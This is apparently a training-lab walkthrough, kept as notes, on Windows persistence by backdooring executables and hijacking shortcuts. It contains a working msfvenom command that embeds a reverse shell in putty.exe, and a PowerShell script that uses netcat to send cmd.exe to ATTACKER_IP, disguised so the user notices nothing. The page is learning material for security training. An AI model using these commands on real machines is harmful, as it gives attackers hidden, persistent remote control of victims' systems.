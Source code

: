 While there are many opportunities to plant backdoors, we will check the most commonly used ones.

Executable Files

	If you find any executable laying around the desktop, the chances are high that the user might use it frequently. Suppose we find a shortcut to PuTTY lying around. If we checked the shortcut's properties, we could see that it (usually) points to C:\Program Files\PuTTY\putty.exe. From that point, we could download the executable to our attacker's machine and modify it to run any payload we wanted.

You can easily plant a payload of your preference in any .exe file with msfvenom. The binary will still work as usual but execute an additional payload silently by adding an extra thread in your binary. To create a backdoored putty.exe, we can use the following command:

```
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

The resulting puttyX.exe will execute a reverse_tcp meterpreter payload without the user noticing it. While this method is good enough to establish persistence, let's look at other sneakier techniques.

Shortcut Files

If we don't want to alter the executable, we can always tamper with the shortcut file itself. Instead of pointing directly to the expected executable, we can change it to point to a script that will run a backdoor and then execute the usual program normally.

For this task, let's check the shortcut to calc on the Administrator's desktop. If we right-click it and go to properties, we'll see where it is pointing:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/7a7349b9dcc5af3180044ee1d7605967.png)

	Before hijacking the shortcut's target, let's create a simple Powershell script in C:\Windows\System32 or any other sneaky location. The script will execute a reverse shell and then run calc.exe from the original location on the shortcut's properties:

```
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"

C:\Windows\System32\calc.exe
```

Finally, we'll change the shortcut to point to our script. Notice that the shortcut's icon might be automatically adjusted while doing so. Be sure to point the icon back to the original executable so that no visible changes appear to the user. We also want to run our script on a hidden window, for which we'll add the -windowstyle hidden option to Powershell. The final target of the shortcut would be:

![[Pasted image 20220911144421.png]]

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/fe703ddea6135e0c867afcc6f61a8cd2.png)

Let's start an nc listener to receive our reverse shell on our attacker's machine:

```

AttackBox

user@AttackBox$ nc -lvp 4445

        


```
